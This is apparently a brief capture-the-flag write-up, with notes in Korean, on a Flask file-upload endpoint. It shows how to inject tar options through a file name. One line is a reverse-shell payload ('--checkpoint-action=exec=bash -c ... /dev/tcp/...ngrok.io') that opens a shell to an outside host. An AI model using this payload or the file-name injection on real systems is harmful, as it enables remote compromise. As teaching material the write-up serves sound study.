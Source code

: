 
```python
# upload file
@app.route('/api/upload', methods=['POST'])
def upload():
    file = request.files.get('file', None)
    if file is None:
        return 'No file provided', 400

    # check for path traversal
    if '..' in file.filename or '/' in file.filename:
        return 'Invalid file name', 400

    # check file size
    if len(file.read()) > 1000:
        return 'File too large', 400

    # file.seek(0) 파일포인터 시작 지점으로 옮기기

    file.save(f'uploads/{g.uuid}/{file.filename}')
    return 'Success! <script>setTimeout(function()'
    +' {window.location="/"}, 3000)</script>', 200
```

---

### 내용이 있는 파일은 사용 불가능

###### 한번의 실행으로 파일을 동적으로 구성해 줘야 함

---

```sh
--checkpoint-action=exec=bash -c 'sh -i >& /dev/tcp/0.tcp.jp.ngrok.io/16142 0>&1'
```

```python
# check for path traversal
    if '..' in file.filename or '/' in file.filename:
        return 'Invalid file name', 400
```

---

![alt text](image-12.png)
